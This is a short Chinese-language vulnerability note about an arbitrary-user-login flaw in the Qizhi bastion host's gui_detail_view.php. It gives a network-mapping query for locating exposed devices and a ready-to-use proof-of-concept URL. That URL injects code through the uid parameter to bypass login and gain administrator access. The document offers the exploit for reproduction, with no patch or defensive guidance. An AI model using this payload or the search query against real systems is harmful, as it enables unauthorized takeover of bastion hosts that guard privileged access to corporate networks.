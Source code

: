 # 齐治堡垒机 gui_detail_view.php 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

```
齐治堡垒机
```

## 网络测绘

```
app="齐治科技-堡垒机"
```

## 漏洞复现

漏洞POC为

```plain
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```



![](images/202202101931947.png)

## 